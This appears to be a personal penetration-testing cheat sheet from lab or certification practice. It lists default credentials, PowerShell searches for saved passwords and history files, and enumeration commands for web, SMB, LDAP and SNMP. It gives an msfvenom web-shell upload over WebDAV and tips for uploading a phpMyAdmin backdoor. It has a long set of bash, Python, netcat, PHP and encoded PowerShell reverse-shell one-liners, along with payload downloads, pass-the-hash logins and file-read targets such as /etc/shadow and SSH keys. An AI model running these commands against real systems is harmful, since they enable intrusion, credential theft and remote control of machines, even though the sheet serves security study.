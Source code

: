 # Default Credentials
```bash
admin:admin
admin:password
admin:null
root:root
root:password
root:null
platform:platform
```

# Windows juicy files 
```bash
> type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
> type C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
> Get-History
> (Get-PSReadlineOption).HistorySavePath

> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
> Get-ChildItem -Path C:\Users -Include *.txt,*.ini,*.log,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

```

# HTTP/HTTPS(80,8080,8000,443...)

## wappalyzer

## gobuster
```bash
gobuster dir -u http://192.168.216.122/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,aspx,jsp,pdf
```

## feroxbuster (must add -x 
```bash
└─# feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --url http://192.168.216.10/ -x php,aspx,jsp,pdf -C 404,401,403 -k
```



## nikto: find webdav, other vuln
```bash
nikto -h http://192.168.222.122
```


## cadaver(username,password required)
```bash
# first create a reverse shell(asp, aspx)
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4444 -f aspx > shell.aspx

# connect to cadaver
cadaver http://10.3.20.218/webdav
put /root/offsec/shell.aspx
```


## wpscan: wordpress
```bash

```


## phpmyadmin: default password
- use default password(password can be null)
- upload php uploader: https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f
- upload simple-backdoor.php through SQL



# PORT 445: SMb
## crackmapexec smb
```bash
crackmapexec smb 192.168.216.165 -u 'enox' -p '' --shares
crackmapexec smb <% ["RHOST"] %> -u "" -p "" --pass-pol

```

## smbclient
```bash
smbclient \\\\192.168.161.31\\share -U 'Administrator' -N
smbclient \\\\192.168.50.212\\share -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

## smbserver
```bash
sudo smbserver.py -smb2support share $(pwd) 
sudo smbserver.py -smb2support share $(pwd) -user kali -password kali

```


# PORT 389,3268: LDAP
## ldapsearch: focus on samaccount and description
```bash
# unauthenticated
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec'  -b 'DC=hutch,DC=offsec'

# authenticated(LAPS found from SYSVOL)
ldapsearch -x -H 'ldap://192.168.216.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```


# SNMP(161)
```bash
snmpwalk -c public -v1 192.168.x.x
snmpwalk -v2c -c public 192.168.195.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
```


## socat
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<victim.ip.add.ress>:9999
```


## NMAP
```bash
sudo nmap -A -p- -T4 192.168.245.145
sudo nmap -sU --open --top-ports 20 -sV 192.168.245.149

```

## Reverse shell
```bash
# bash
bash -i >& /dev/tcp/192.168.45.176/80 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.45.176/80 0>&1'
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.176%2F80%200%3E%261%22
echo -n '/bin/bash -c "bin/bash -i >& /dev/tcp/192.168.45.176/80 0>&1"' | base64

# python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.176",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.176",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#netcat reverse shell
nc -e /bin/sh 192.168.45.176 80

#PHP reverse shell
php -r '$sock=fsockopen("192.168.45.176",80);exec("/bin/sh -i <&3 >&3 2>&3");'

#Powershell: Create powershell reverse shell on kali linux
$ kali@kali:~$ pwsh

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText

$powershell -enc $EncodedText

```

## curl
```bash
# GET Request
curl -i http://192.168.50.16:5002/users/v1/admin/password

# POST Request
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

# PUT Request
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

## File Download(When not working, make sure to use 80 and also try it without http://)
```bash
#certutil
certutil -urlcache -split -f http://192.168.45.176:8000/winPEAS.exe c:/users/public/winPEAS.exe

#wget
wget http://192.168.45.176:8000/rev.sh
wget -P /tmp/rev.sh http://192.168.45.176:8000/rev.sh


#powershell
iwr -uri http://192.168.45.176:8000/winPEAS.exe -outfile c:/users/public/winPEAS.exe

#curl
curl http://192.168.45.176/<FILE> > <OUTPUT_FILE>

```


# File Read Exploit
- If the server is running with NY SYSTEM or sudo(root), we can grab any files
- Check SSH Keys [id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, id_dsa]
  - /home/username/{id_rsa}
  - /home/username/.ssh/{id_rsa}  
- find password files for other program that's running(for authenticated exploit that we can actually get reverse shell)
- /etc/passwd
- /etc/shadow
- /home/username/.bash_history
- /home/username/.bash_aliases


